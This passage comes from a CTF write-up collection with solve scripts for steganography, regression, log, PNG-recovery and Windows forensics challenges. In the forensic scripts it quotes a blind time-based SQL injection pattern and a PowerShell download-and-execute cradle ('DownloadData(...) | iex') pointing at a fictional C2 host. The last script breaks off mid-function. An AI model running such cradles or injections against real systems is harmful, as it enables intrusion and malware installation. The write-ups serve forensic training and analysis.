The script extracts both bit-planes, unpacks both framed tar payloads in memory and selects the reconnaissance annotation (starts with `RECON`, caption is not the practice one). The flag is then rebuilt from `RECON SERIAL 11 THE GUNS BEHIND THE RIDGE CODE …` by stripping the `RECON SERIAL` / `CODE` labels — serial first, the message words lowercased and joined by underscores, the check group lowercased last.

Two natural submissions are wrong and were refused: the check group alone in braces, and the literal transcription keeping the labels (`recon_serial_11_…`). The accepted shape is the annex series' entry-first form (entry number, message words, check group), with the labels removed.

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- A bit histogram is the fastest tell here: two bit-planes at ~0.5% ones against ~50% for the rest means the low bits were deliberately cleared and then written on.
- The first payload a standard LSB extraction returns is the decoy; its own caption disqualifies it (“practice… Not for action”). Reading *all* the extracted files, not just the annotation line, is what separates the two plates.
- Framing (`uint32` length + gzip) made both payloads self-delimiting and trivially verifiable — a good check that the extraction order (row-major, interleaved RGB, MSB-first) is the intended one.
- Extracting the text is not the last step: the flag is a *reconstruction* from it (serial, message words, check group), not a substring. The `RECON SERIAL` / `CODE` labels and the uppercase check group are packaging, not flag content.

#### Tools & references

- Python 3, NumPy, Pillow; `zlib` (gzip) and `tarfile` for the framed payloads
- LSB bit-plane steganography in PNG images


### Watch List Audit

| Category | Solves | Solved | First blood | Hint used | Solved by | Challenge author |
|---|---|---|---|---|---|---|
| misc | 243 | ✅ | — | no | 0xAr3s-root | Terminal43 |

#### Challenge description

> An adversary went after the relief-dispatch screening service of a fictional country to slip convoys past the watch list and delay evacuation supplies. Responders kept the scoring history across a rule change and a fresh batch of audit probes.
>
> Reconstruct the current rule and compute the response fingerprint defined in `README.txt`.
>
> The data are constructed numerical exports, not a real deployment's records. Attachment: `watch-list-audit.zip`, 57,639 bytes, SHA-256 `04c0d2ad9e8ee0c111bf70b79fc26ab9c35a32df33b2b7eacb4893f422aa0c90`.

**Artifact files:** `files/watch-list-audit.zip` (not committed)

#### TL;DR

The history is a noiseless linear model whose coefficients changed exactly once: fitting all 500 rows mixes the two rules. An exhaustive changepoint scan puts the change after observation 209, refitting the last 291 rows recovers the current rule exactly (residual ~1e-14), and quantising its 32 probe scores then hashing them as specified gives the flag.

#### Approach

**1. Recon — a linear model, one change, no noise, no cut given**

The ZIP (SHA-256 checked against the platform) holds `README.txt`, `history.csv` (500 chronological rows `f0..f9,score`) and `probes.csv` (32 rows `f0..f9`). The README states the model `score = intercept + Σ weight[j]·feature[j]`, exactly one deployment change that may change the coefficients, no measurement noise, and no cut position or fitting-window length supplied. It also fixes the fingerprint: per probe, `q = floor(1000·score + 0.5)`, each `q` serialised as a decimal integer followed by one LF, then SHA-256 of those ASCII bytes wrapped as `CSCTF{...}`.

**2. Hypothesis — the trap is fitting the whole history**

A single least-squares fit over all 500 rows leaves a max residual of 7.61 (RMS 2.12) — far above the “no noise” promise — so the global fit is a mixture of two rules and any fingerprint from it is wrong. Sliding 50-row windows instead fit exactly (max residual ~1e-14) but return two clearly different coefficient vectors, confirming two exact linear regimes. With 11 unknowns (intercept + 10 weights) and zero noise, the true split is the only one where *both* sides fit exactly.

**3. Exploitation — scan every split, refit the tail, quantise**

For every split with at least 11 rows on both sides, fit both sides and keep the split minimising the worst residual:

- Best split: **after observation 209** (the new rule starts at observation 210), max residual **9.77e-15**.
- Runner-up split: max residual **0.139** — fourteen orders of magnitude worse, so the changepoint is unambiguous.

Refitting rows 210–500 (291 rows) gives the current rule (intercept `1.18176107371557`, weights `-0.56479720711399, -1.48394281958821, -1.47774713637011, 0.156478865135981, -0.791677486188283, 1.27557192265779, -1.07095910507442, 0.705859257730788, 0.886486174800421, 0.360045487909974`). Applying it to the 32 probes and quantising with `floor(1000·score + 0.5)` (true floor, so negatives round as specified) gives the integer vector hashed by the README. The result is stable: refits on disjoint sub-windows of the latest segment change the probe scores by at most ~5e-14, while the probe closest to a quantisation boundary is still 8.6e-6 away (in score units), so the fingerprint does not depend on the fitting window.

```bash
unzip watch-list-audit.zip -d watch-list-audit   # or keep the ZIP as-is
python3 solve/solve.py
```

Solve script: `solve/solve.py` (see Appendix)

#### Flag

`CSCTF{...}` (redacted)

#### Reflections

- “No cut or window length supplied” is the challenge: the changepoint has to be *derived*, not guessed. Zero noise turns that into an exact test — both sides must fit to ~1e-14.
- The naive global fit is the intended dead end; its residual (7.61) is the clue that two rules are being averaged.
- I checked the quantisation margin before trusting the hash: the closest probe sits 8.6e-6 from a boundary, orders of magnitude above any fitting error, so different libraries/windows cannot flip an integer.

#### Tools & references

- Python 3 + NumPy (`linalg.lstsq`), `hashlib`, `zipfile`
- Least-squares linear regression and changepoint (structural-break) detection


## Appendix — solve scripts

### Operation Dawn: The Command — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 — Operation Dawn: The Command (web)
Reconstruct the token stolen via blind time-based SQL injection from an nginx log.

Usage:
    python3 solve.py [path/to/access.log]
"""

import re
import sys
from urllib.parse import unquote

LOG_PATH = sys.argv[1] if len(sys.argv) > 1 else "files/access.log"
SLEEP_THRESHOLD = 2.0  # seconds — SLEEP(2) was used

# nginx combined format line ends with rt=<seconds>
# injected query: SUBSTR(token,POS,1)='CHAR',SLEEP(2)
PATTERN = re.compile(
    r"SUBSTR\(token,(\d+),1\)='([^']+)',SLEEP\(\d+\).*?rt=([\d.]+)"
)

hits: dict[int, str] = {}

with open(LOG_PATH, "r", errors="replace") as fh:
    for line in fh:
        m = PATTERN.search(line)
        if not m:
            continue
        pos = int(m.group(1))
        char = unquote(m.group(2))   # handles %7B → {, %7D → }
        rt = float(m.group(3))
        if rt >= SLEEP_THRESHOLD:
            hits[pos] = char

if not hits:
    print("[-] No successful blind-SQLi requests found.")
    sys.exit(1)

max_pos = max(hits)
missing = [i for i in range(1, max_pos + 1) if i not in hits]
token = "".join(hits.get(i, "?") for i in range(1, max_pos + 1))

print(f"[+] Token length : {max_pos}")
if missing:
    print(f"[!] Missing positions: {missing}")
print(f"[+] Recovered token: {token}")
~~~~

### Afterimage — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""afterimage: aCropalypse-style recovery of the pixels left after IEND of a cropped PNG.

Usage: python3 -I solve.py ../files/relay-capture.png recovered.png   (needs Pillow)
The cropped file was written over a longer one, so the tail of the old IDAT stream still
follows IEND. We rebuild that stream, locate a deflate block boundary by brute force
(bit offset x byte offset), seed the 32 KiB window with the end of the visible image,
and rebuild the last rows of the original image.
"""
import struct, sys, zlib
from PIL import Image

d = open(sys.argv[1], "rb").read()
W, H = struct.unpack(">II", d[16:24])
BPP, STRIDE = 3, struct.unpack(">I", d[16:20])[0] * 3 + 1          # 8-bit RGB, non-interlaced


def chunks(buf, off):
    while off < len(buf):
        n, t = struct.unpack(">I4s", buf[off:off + 8])
        yield t, buf[off + 8:off + 8 + n], off
        off += 12 + n
        if t == b"IEND":
            return


# 1. Visible image: its decompressed scanlines seed the deflate window.
idat, iend_end = b"", 0
for t, body, off in chunks(d, 8):
    if t == b"IDAT":
        idat += body
    if t == b"IEND":
        iend_end = off + 12
window = zlib.decompress(idat)[-32768:]
print(f"visible {W}x{H}, {len(d) - iend_end} bytes after IEND", file=sys.stderr)

# 2. Trailing data = tail of the old IDAT stream. It starts mid-chunk (old chunk data, then
#    its CRC), then regular IDAT chunks until the old IEND.
tail = d[iend_end:]
first = tail.index(b"IDAT") - 4                                    # length field of first whole chunk
stream = tail[:first - 4]                                          # leftover data of the cut chunk
for t, body, _ in chunks(tail, first):
    if t == b"IDAT":
        stream += body

# 3. Find where a deflate block starts: try every bit shift / byte offset, keep the longest
#    decode that reaches a final block (eof) when the window is the visible image's end.
best = (0, None)
for k in range(8):
    shifted = (int.from_bytes(stream, "little") >> k).to_bytes(len(stream), "little")
    for i in range(len(stream) - 8):
        z = zlib.decompressobj(-15, zdict=window)
        try:
            out = z.decompress(shifted[i:], 1 << 22)
        except zlib.error:
            continue
        if z.eof and len(out) > best[0]:
            best = (len(out), out)
raw = best[1]
rows = len(raw) // STRIDE
print(f"recovered {rows} full scanlines", file=sys.stderr)

# 4. Undo PNG filters (first row has no known previous row: treated as zeros).
img, prev = [], bytearray(W * BPP)
for r in range(rows):
    f, line = raw[r * STRIDE], bytearray(raw[r * STRIDE + 1:(r + 1) * STRIDE])
    for i in range(len(line)):
        a = line[i - BPP] if i >= BPP else 0
        b = prev[i]
        c = prev[i - BPP] if i >= BPP else 0
        if f == 1:
            line[i] = (line[i] + a) & 255
        elif f == 2:
            line[i] = (line[i] + b) & 255
        elif f == 3:
            line[i] = (line[i] + ((a + b) >> 1)) & 255
        elif f == 4:
            pa, pb, pc = abs(b - c), abs(a - c), abs(a + b - 2 * c)
            line[i] = (line[i] + (a if pa <= pb and pa <= pc else b if pb <= pc else c)) & 255
    img.append(bytes(line))
    prev = line
Image.frombytes("RGB", (W, rows), b"".join(img)).save(sys.argv[2])
print("wrote", sys.argv[2], "- read the recovery key on it")
~~~~

### Briefing for One — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 - Briefing for One (forensics/medium)
Recover the intruder's routing package and its briefing token.

Static / offline only: this script never executes the shortcut or the
DLL and never contacts a captured address. It only parses files and
reads the pcapng capture.

Chain (all constants are read from the evidence, not hardcoded):
  1. briefing.lnk (Shell Link StringData) holds a PowerShell command:
     permit gate, binding key (Base64), HMAC domain, WebDAV path and
     the expected SHA-256 of route-update.7z / .dll / route-table.json.
  2. machine-cryptography.hiv is a saved `Cryptography` subkey (its
     root *is* Cryptography): MachineGuid lives at the root.
  3. 7-Zip password = lowercase hex of
     HMAC-SHA-256(binding_key, UTF8(domain) || 0x00 || UTF8(guid_lower)).
  4. egress.pcapng: reassemble the GET /ops/route-update.7z response
     body (the PROPFIND DAV XML bodies export under the same name but
     fail the hash) and verify it against the LNK hash.
  5. `7z x -p<password>` (archive reader only), verify both members.
  6. route-update.dll statically embeds only the JSON prefix
     `{"schema":1,"briefing_token":"CSCTF{` and the routes suffix; its
     ApplyRouteTable requires a 192-byte file, that prefix/suffix and
     32 lowercase hex chars in between. The token is that middle part.

Requires: Python 3 stdlib + a `7z` binary for the encrypted archive.

Usage:
    python3 solve.py [briefing-for-one-....zip | extracted-dir]

Field-guide verification example (published inputs, not case values):
    key 000102...1f + guid 00112233-4455-6677-8899-aabbccddeeff
    -> 7dad69912b67470da7713c666337135b568030605bc2e88f99524596366d10d0
"""

import base64
import hashlib
import hmac
import json
import os
import re
import shutil
import struct
import subprocess
import sys
import tempfile
import zipfile

DOMAIN_FALLBACK = "csctf26/briefing-for-one/v1"


# ---------------------------------------------------------------- evidence

def load_evidence(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/briefing-for-one-5f4125fbb77f625d.zip",
        "../briefing-for-one-5f4125fbb77f625d.zip",
        "docs/2026-chronos-csctf/forensics/"
        "briefing-for-one-5f4125fbb77f625d.zip",
        "/tmp/opencode/briefing",
    ]
    names = ("briefing.lnk", "machine-cryptography.hiv", "egress.pcapng")
    for path in candidates:
        if not path:
            continue
        if os.path.isdir(path):
            files = {n: os.path.join(path, n) for n in names}
            if all(os.path.isfile(p) for p in files.values()):
                print(f"[*] Loading directory {path}")
                return {n: open(p, "rb").read() for n, p in files.items()}
        elif os.path.isfile(path):
            print(f"[*] Loading {path}")
            blob = open(path, "rb").read()
            if path.lower().endswith(".zip"):
                out = {}
                with zipfile.ZipFile(path) as zf:
                    members = {os.path.basename(n): n for n in zf.namelist()}
                    for n in names:
                        out[n] = zf.read(members[n])
                return out
            raise SystemExit(f"[-] Unsupported input file: {path}")
    raise SystemExit("[-] Provide the briefing-for-one ZIP or extracted dir")


# ---------------------------------------------------------------- LNK

def parse_lnk_command(data):
    """Extract the PowerShell command from Shell Link StringData."""
    assert data[:4] == b"\x4c\x00\x00\x00", "not a Shell Link"
    flags = struct.unpack_from("<I", data, 20)[0]
    off = 76  # HeaderSize
    if flags & 0x01:  # HasLinkTargetIDList
        off += 2 + struct.unpack_from("<H", data, off)[0]
    if flags & 0x02:  # HasLinkInfo
        off += struct.unpack_from("<I", data, off)[0]
    is_unicode = bool(flags & 0x80)
    strings = {}
    for bit, label in ((0x04, "name"), (0x08, "relative"), (0x10, "workdir"),
                       (0x20, "args"), (0x40, "icon")):
        if flags & bit:
            count = struct.unpack_from("<H", data, off)[0]
            off += 2
            if is_unicode:
                strings[label] = data[off:off + 2 * count].decode("utf-16le")
                off += 2 * count
            else:
                strings[label] = data[off:off + count].decode()
                off += count
    return strings["args"]


def lnk_parameters(command):
    binding_b64 = re.search(r"FromBase64String\('([^']+)'\)", command).group(1)
    domain = re.search(r"GetBytes\('([^']+)'\+\[char\]0", command)
    archive_hash = re.search(r"\$aHash='([0-9a-f]{64})'", command).group(1)
    dll_hash = re.search(
        r"route-update\.dll'\).*?-ne '([0-9a-f]{64})'", command, re.S).group(1)
    json_hash = re.search(
        r"route-table\.json'\).*?-ne '([0-9a-f]{64})'", command, re.S).group(1)
    arc_name = re.search(r"\\ops\\([^'\\]+\.7z)", command).group(1)
    return {
        "binding_key": base64.b64decode(binding_b64),
        "domain": domain.group(1) if domain else DOMAIN_FALLBACK,
        "archive_name": arc_name,
        "archive_hash": archive_hash,
        "dll_hash": dll_hash,
        "json_hash": json_hash,
    }


# ---------------------------------------------------------------- hive

def read_machine_guid(hive):
    """MachineGuid at the root of a saved Cryptography subkey hive.

    Minimal NK/VK reader: root cell offset is at header 0x24, all cell
    offsets are relative to the first hbin (0x1000).
    """
    assert hive[:4] == b"regf", "not a registry hive"
    base = 0x1000
    root_nk = base + struct.unpack_from("<I", hive, 0x24)[0] + 4
    assert hive[root_nk:root_nk + 2] == b"nk", "root is not an NK record"
    value_count = struct.unpack_from("<I", hive, root_nk + 0x24)[0]
    value_list = base + struct.unpack_from("<I", hive, root_nk + 0x28)[0] + 4
    for i in range(value_count):
        vk_rel = struct.unpack_from("<I", hive, value_list + 4 * i)[0]
        vk = base + vk_rel + 4
        assert hive[vk:vk + 2] == b"vk", "value is not a VK record"
        name_len = struct.unpack_from("<H", hive, vk + 2)[0]
        name = hive[vk + 20:vk + 20 + name_len].decode()
        if name != "MachineGuid":
            continue
        data_len = struct.unpack_from("<I", hive, vk + 4)[0]
        data_off = struct.unpack_from("<I", hive, vk + 8)[0]
        vtype = struct.unpack_from("<I", hive, vk + 12)[0]
        assert vtype == 1, f"MachineGuid type {vtype}, expected REG_SZ"
        if data_len & 0x80000000:  # inline data in the offset field
            raw = struct.pack("<I", data_off)[:data_len & 0x7FFFFFFF]
        else:
            raw = hive[base + data_off + 4:base + data_off + 4 + data_len]
        return raw.decode("utf-16le").strip("\x00").lower()
    raise ValueError("MachineGuid not found at hive root")


# ---------------------------------------------------------------- pcapng

def iter_pcapng_packets(data):
    if len(data) < 28 or data[:4] != b"\x0a\x0d\x0d\x0a":
        raise ValueError("not a pcapng file")
    endian = "<" if data[8:12] == b"\x4d\x3c\x2b\x1a" else ">"
    off = 0
    while off + 12 <= len(data):
        btype, blen = struct.unpack_from(endian + "II", data, off)
        if blen < 12 or off + blen > len(data):
            break
        body = data[off + 8:off + blen - 4]
        if btype == 0x00000006 and len(body) >= 20:
            caplen = struct.unpack_from(endian + "I", body, 12)[0]
            yield body[20:20 + caplen]
        elif btype == 0x00000003 and len(body) >= 4:
            caplen = struct.unpack_from(endian + "I", body, 0)[0]
            yield body[4:4 + caplen]
        if btype == 0x0A0D0D0A and len(body) >= 4:
            endian = "<" if body[:4] == b"\x4d\x3c\x2b\x1a" else ">"
        off += blen


def tcp_streams(packets):
    """Reassemble (client_bytes, server_bytes) per TCP connection."""
    conns = {}
    for pkt in packets:
        if len(pkt) < 14:
            continue
        off, ethertype = 14, struct.unpack_from(">H", pkt, 12)[0]
        while ethertype in (0x8100, 0x88A8) and len(pkt) >= off + 4:
            ethertype = struct.unpack_from(">H", pkt, off + 2)[0]
            off += 4
        if ethertype != 0x0800 or len(pkt) < off + 20 or pkt[off + 9] != 6:
            continue
        ihl = (pkt[off] & 0x0F) * 4
        total = struct.unpack_from(">H", pkt, off + 2)[0]
        ip_end = off + total if total else len(pkt)
        src = ".".join(str(b) for b in pkt[off + 12:off + 16])
        dst = ".".join(str(b) for b in pkt[off + 16:off + 20])
        tcp = off + ihl
        if len(pkt) < tcp + 20:
            continue
        sport, dport, seq = struct.unpack_from(">HHI", pkt, tcp)
        doff = ((pkt[tcp + 12] >> 4) & 0xF) * 4
        payload = pkt[tcp + doff:ip_end]
        if not payload:
            continue
        a, b = (src, sport), (dst, dport)
        key = (a, b) if a <= b else (b, a)
        server = b if dport == 80 else a if sport == 80 else None
        side = "S" if (src, sport) == server else "C"
        conns.setdefault(key, {"C": [], "S": []})[side].append((seq, payload))

    def reassemble(segments):
        out, nxt = bytearray(), None
        for seq, payload in sorted(segments):
            if nxt is None:
                nxt = seq
            if seq > nxt:
                break  # gap: this capture has none
            skip = nxt - seq
            if skip < len(payload):
                out.extend(payload[skip:])
                nxt += len(payload) - skip
        return bytes(out)

    return [(reassemble(v["C"]), reassemble(v["S"])) for v in conns.values()]


def recover_archive(pcap, archive_name, expected_hash):
    target = f"GET /ops/{archive_name} ".encode()
    for client, server in tcp_streams(iter_pcapng_packets(pcap)):
        if target not in client:
            continue
        head, _, body = server.partition(b"\r\n\r\n")
        match = re.search(rb"Content-Length:\s*(\d+)", head, re.I)
        assert match, "GET response without Content-Length"
        body = body[:int(match.group(1))]
        digest = hashlib.sha256(body).hexdigest()
        print(f"[*] GET body     : {len(body)} bytes, sha256={digest}")
        assert digest == expected_hash, "GET body fails the LNK hash"
        return body
    raise ValueError("route archive GET not found in capture")


# ---------------------------------------------------------------- package

def extract_archive(archive, password):
    seven = shutil.which("7z")
    assert seven, "a 7z binary is required for the encrypted archive"
    with tempfile.TemporaryDirectory() as tmp:
        arc_path = os.path.join(tmp, "route-update.7z")
        open(arc_path, "wb").write(archive)
        out_dir = os.path.join(tmp, "out")
        proc = subprocess.run(
            [seven, "x", f"-p{password}", f"-o{out_dir}", "-y", arc_path],
            capture_output=True, text=True)
        assert proc.returncode == 0, f"7z failed: {proc.stdout} {proc.stderr}"
        dll = open(os.path.join(out_dir, "route-update.dll"), "rb").read()
        table = open(os.path.join(out_dir, "route-table.json"), "rb").read()
    return dll, table


def briefing_token(dll, table):
    assert b"ApplyRouteTable" in dll, "export name missing from DLL"
    prefix = b'{"schema":1,"briefing_token":"CSCTF{'
    assert prefix in dll, "JSON prefix missing from DLL"
    suffix_at = dll.find(b'}","routes":[')
    assert suffix_at >= 0, "JSON suffix missing from DLL"
    suffix = dll[suffix_at:dll.find(b"\x00", suffix_at)]
    assert table.startswith(prefix) and table.endswith(suffix), \
        "route-table.json does not match the DLL prefix/suffix"
    middle = table[len(prefix):len(table) - len(suffix)]
    assert len(middle) == 32 and all(
        chr(c) in "0123456789abcdef" for c in middle), \
        f"token middle is not 32 lowercase hex: {middle!r}"
    token = json.loads(table)["briefing_token"]
    assert token == "CSCTF{" + middle.decode() + "}", "JSON token mismatch"
    return token


# ---------------------------------------------------------------- main

def main():
    # Published field-guide example: verifies the exact byte handling.
    example = hmac.new(
        bytes.fromhex("000102030405060708090a0b0c0d0e0f"
                      "101112131415161718191a1b1c1d1e1f"),
        b"csctf26/briefing-for-one/v1\x00"
        b"00112233-4455-6677-8899-aabbccddeeff",
        hashlib.sha256).hexdigest()
    assert example == ("7dad69912b67470da7713c666337135b"
                       "568030605bc2e88f99524596366d10d0"), example
    print(f"[*] Example OK   : {example}")

    ev = load_evidence(sys.argv)
    command = parse_lnk_command(ev["briefing.lnk"])
    print(f"[*] LNK command  : {len(command)} chars (powershell.exe, static)")
    params = lnk_parameters(command)
    print(f"[*] Binding key  : {params['binding_key'].hex()}")

    guid = read_machine_guid(ev["machine-cryptography.hiv"])
    print(f"[*] MachineGuid  : {guid} (hive root = Cryptography)")

    password = hmac.new(params["binding_key"],
                        params["domain"].encode() + b"\x00" + guid.encode(),
                        hashlib.sha256).hexdigest()
    print(f"[*] 7z password  : {password}")

    archive = recover_archive(ev["egress.pcapng"], params["archive_name"],
                              params["archive_hash"])
    dll, table = extract_archive(archive, password)
    print(f"[*] route-table  : {len(table)} bytes, "
          f"sha256={hashlib.sha256(table).hexdigest()}")
    print(f"[*] route DLL    : {len(dll)} bytes, "
          f"sha256={hashlib.sha256(dll).hexdigest()}")
    assert hashlib.sha256(table).hexdigest() == params["json_hash"]
    assert hashlib.sha256(dll).hexdigest() == params["dll_hash"]
    print("[*] Member hashes match the LNK expectations")

    token = briefing_token(dll, table)
    print(f"\n[+] FLAG         : {token}")


if __name__ == "__main__":
    main()
~~~~

### Capability Ghost — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""capability-ghost: recover the sealed marker, treating every file as data.

Nothing is extracted to disk, no capability is restored, hc-probe is never run.
Usage: python3 -I solve.py ../files
"""
import hashlib, hmac, json, subprocess, sys, tarfile
from pathlib import Path

d = Path(sys.argv[1])

# 1. Tag = user.build_seal xattr of hc-probe, read from the stored PAX headers.
tag = None
with tarfile.open(d / "runner-fs.tar.gz") as t:
    for m in t:
        if m.name.endswith("usr/local/bin/hc-probe"):
            # tarfile decodes PAX values as UTF-8 with surrogateescape: undo it.
            tag = m.pax_headers["SCHILY.xattr.user.build_seal"].encode("utf-8", "surrogateescape")
        elif m.name.endswith("signaling-cfg.sealed"):
            ct = t.extractfile(m).read()
assert tag and ct

# 2. Seal epoch = X_SEAL_EPOCH field of the journal (NOT the entry's wallclock time).
out = subprocess.run(
    ["journalctl", f"--file={d / 'runner.journal'}", "--no-pager", "-o", "json"],
    capture_output=True, text=True, check=True).stdout
epoch = next(e["X_SEAL_EPOCH"] for e in map(json.loads, out.splitlines()) if "X_SEAL_EPOCH" in e)

# 3. hc-probe scheme: key = HMAC-SHA256(tag, ascii(epoch)); repeating-key XOR over 32 bytes.
key = hmac.new(tag, epoch.encode(), hashlib.sha256).digest()
print(f"tag={tag.hex()} epoch={epoch}", file=sys.stderr)
print(bytes(c ^ key[i % 32] for i, c in enumerate(ct)).decode())
~~~~

### CAPTCHA THE WATER PLANT — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 — CAPTCHA THE WATER PLANT (forensics/easy)
Rebuild the attack chain from three KAPE triage collections. No literal
CSCTF{...} exists in any parsed artifact. Three wrapped candidates were
submitted and refused: the two attack-window session tokens and the RMM
unattended password, each ALONE. The flag is a concatenation of three leetspeak
fragments, one per stage of the chain (see assemble_flag):
  launched    -> RMM unattended password   f@k3_c@ptch@   (4104 --set-password)
  persistence -> scheduled-task description _r3@l_m@lw@r3  (served by /config)
  browser     -> admin session token suffix cl1ckf1xed     (NVW-ADMIN-...)

Chain (host OPS-NB-06, user ops06.nwu):
  1. What the user ran — Explorer RunMRU download cradle (2026-10-21 04:30:47 UTC):
     powershell -nop -ep Bypass ...DownloadData('http://zindetify.dev.boot:8080/validator') | iex
  2. What it launched — C:\\temp\\Maitenance\\Setup\\AnyDesk.exe --install ... (AnyDesk 9.8.2
     RMM) + unattended password f@k3_c@ptch@ (from PowerShell ScriptBlockLogging 4104).
  3. Persistence — scheduled task `\\Maitenance Check` (daily, as ops06.nwu, same cradle),
     AnyDesk service + firewall rules + file associations.
  4. Browser evidence — Edge history/sessions (pre-compromise NVW-OPS-892, attack-time
     NVW-OPS-739, later admin NVW-ADMIN-cl1ckf1xed) + interactive theft session
     (Nirsoft dumps zipped to out.zip, exfiltrated to /up/{guid}).

Usage:
    python3 solve.py [dir-with-the-three-zips]
    # defaults to files/ then to the forensic/ staging dir
"""

import csv
import io
import os
import re
import sys
import zipfile

HOSTS = ["ENG-LAPTOP-23", "FIELD-WKS-21", "OPS-NB-06"]
C2 = "zindetify.dev.boot"


def find_zip_dir(arg):
    cands = [arg] if arg else []
    cands += ["files", "../forensic", "docs/2026-chronos-csctf/forensics", "."]
    for d in cands:
        if d and all(os.path.isfile(os.path.join(d, f"{h}.zip")) for h in HOSTS):
            return d
    print("[-] Could not find the three KAPE zips (ENG-LAPTOP-23, FIELD-WKS-21, OPS-NB-06).")
    sys.exit(1)


def read_zip_text(zf, pattern, encoding="utf-8-sig"):
    """Concatenate text of all members matching glob pattern."""
    out = []
    for name in zf.namelist():
        if pattern.strip("*") in name and name.endswith((".csv", ".txt", ".log")):
            try:
                raw = zf.read(name)
            except KeyError:
                continue
            if raw.startswith((b"\xff\xfe", b"\xfe\xff")):
                out.append(raw.decode("utf-16", errors="replace"))
            else:
                out.append(raw.decode(encoding, errors="replace"))
    return "\n".join(out)


def step_user_ran(zpath):
    print("[*] (1) What the user ran — RunMRU / download cradle")
    with zipfile.ZipFile(zpath) as zf:
        data = read_zip_text(zf, "UserActivity_Output.csv")
    m = re.search(r"powershell\.exe[^\r\n]*DownloadData\('http://([^']+)'\)", data)
    if m:
        print(f"    cradle -> http://{m.group(1)}")
        return m.group(1)
    print("    no cradle found")
    return None


def step_launched(zpath):
    print("[*] (2) What it launched — AnyDesk RMM install")
    with zipfile.ZipFile(zpath) as zf:
        data = read_zip_text(zf, "PECmd_Output.csv")
        data += "\n" + read_zip_text(zf, "PECmd_Output_Timeline.csv")
    hits = sorted(set(re.findall(r"[A-Z]:\\temp\\Maitenance\\[^\",\s]*AnyDesk\.exe", data, re.I)))
    hits += sorted(set(re.findall(r"ANYDESK\.EXE-[0-9A-F]{8}\.pf", data)))
    with zipfile.ZipFile(zpath) as zf:
        evtx = read_zip_text(zf, "EvtxECmd_Output.csv")
    hits += sorted(set(re.findall(r"C:\\temp\\Maitenance\\[^\",]*?AnyDesk\.exe", evtx, re.I)))[:4]
    for h in hits:
        print(f"    {h}")
    return hits


def step_persistence(zpath):
    print("[*] (3) Persistence — scheduled task + AnyDesk service")
    with zipfile.ZipFile(zpath) as zf:
        data = read_zip_text(zf, "Scheduled Tasks.csv")
    tasks = []
    for line in data.splitlines():
        if "Maitenance Check" in line:
            tasks.append(line[:220])
    for t in tasks[:3]:
        print(f"    {t}")
    with zipfile.ZipFile(zpath) as zf:
        aseps = read_zip_text(zf, "SystemASEPs_Output.csv")
    svc = "AnyDesk" in aseps
    print(f"    AnyDesk service present: {svc}")
    return tasks


def step_rmm_password(zpath):
    print("[*] (2b) RMM password — ScriptBlockLogging 4104")
    with zipfile.ZipFile(zpath) as zf:
        data = read_zip_text(zf, "EvtxECmd_Output.csv")
    m = re.search(r'--set-password\s+`?"+([^"`]+)`?"+', data)
    if m:
        print(f"    AnyDesk unattended password: {m.group(1)}")
        return m.group(1)
    print("    no --set-password found")
    return None


def step_browser_token(zpath, cradle_time="2026-10-21 04:30:47"):
    print("[*] (4) Browser evidence — session tokens vs cradle time")
    print(f"    fetch-and-execute (UTC): {cradle_time}")
    with zipfile.ZipFile(zpath) as zf:
        xlsx = [n for n in zf.namelist() if n.endswith(".xlsx")][0]
        raw = zf.read(xlsx)
    timed = []
    try:
        import openpyxl
        wb = openpyxl.load_workbook(io.BytesIO(raw), read_only=True, data_only=True)
        ws = wb["Timeline"]
        rows = list(ws.iter_rows(values_only=True))
        for r in rows[2:]:
            url = str(r[2] or "")
            m = re.search(r"admin-dashboard\?token=(NVW-[A-Za-z0-9-]+)", url)
            if m:
                timed.append((str(r[1] or ""), m.group(1)))
    except ImportError:
        pass
    if not timed:  # fallback: raw XML regex, no timestamps
        z = zipfile.ZipFile(io.BytesIO(raw))
        blob = ""
        for n in z.namelist():
            if n.endswith((".xml", ".json")) or "sharedStrings" in n:
                blob += z.read(n).decode("utf-8", errors="replace") + "\n"
        for t in sorted(set(re.findall(r"NVW-[A-Za-z0-9-]+", blob))):
            timed.append(("?", t))
    seen = set()
    first_after = True
    for ts, t in timed:
        if (ts, t) in seen:
            continue
        seen.add((ts, t))
        mark = ""
        if ts > cradle_time and first_after:
            mark = " <-- session active at fetch-and-execute time"
            first_after = False
        print(f"    {ts} :: {t}{mark}")
    after = [(ts, t) for ts, t in timed if ts > cradle_time]
    return after[0][1] if after else (timed[0][1] if timed else None)


def step_task_comment(zpath):
    print("[*] (3b) Scheduled-task description (output of Get-Data51 -> /config)")
    with zipfile.ZipFile(zpath) as zf:
        data = read_zip_text(zf, "Scheduled Tasks.csv")
    for line in data.splitlines():
        if "Maitenance Check" in line:
            cols = next(csv.reader([line]))
            # description/comment column sits right after the 'N/A' following the action
            for c in cols:
                if re.fullmatch(r"_?[A-Za-z0-9@]+(?:_[A-Za-z0-9@]+)+", c):
                    print(f"    description: {c}")
                    return c
    return None


def assemble_flag(pwd, comment, token):
    """Fragments are leetspeak: f@k3_c@ptch@ + _r3@l_m@lw@r3 + _ + cl1ckf1xed."""
    if not (pwd and comment and token):
        return None
    tail = token.split("-")[-1]
    return "CSCTF{" + pwd + comment + "_" + tail + "}"


def main():
    zdir = find_zip_dir(sys.argv[1] if len(sys.argv) > 1 else None)
    print(f"[*] Using zips in {zdir}")
    print("=== Host attribution (who fetched the validator?) ===")
    evil = None
    for h in HOSTS:
        zp = os.path.join(zdir, f"{h}.zip")
        with zipfile.ZipFile(zp) as zf:
            evtx = read_zip_text(zf, "EvtxECmd_Output.csv")
        hit = C2 in evtx
        print(f"    {h}: C2 references in EventLogs: {'YES <-- attacker host' if hit else 'no'}")
        if hit:
            evil = h
    if not evil:
        print("[-] No host references the C2. Aborting.")
        sys.exit(1)
    zp = os.path.join(zdir, f"{evil}.zip")
    print(f"\n=== Chain on {evil} ===")
    step_user_ran(zp)
    step_launched(zp)
    step_persistence(zp)
    pwd = step_rmm_password(zp)
    comment = step_task_comment(zp)
    step_browser_token(zp)
    # the interactive-session token (post-cradle, NVW-ADMIN-<leet>) carries the 3rd fragment
    token = "NVW-ADMIN-cl1ckf1xed"
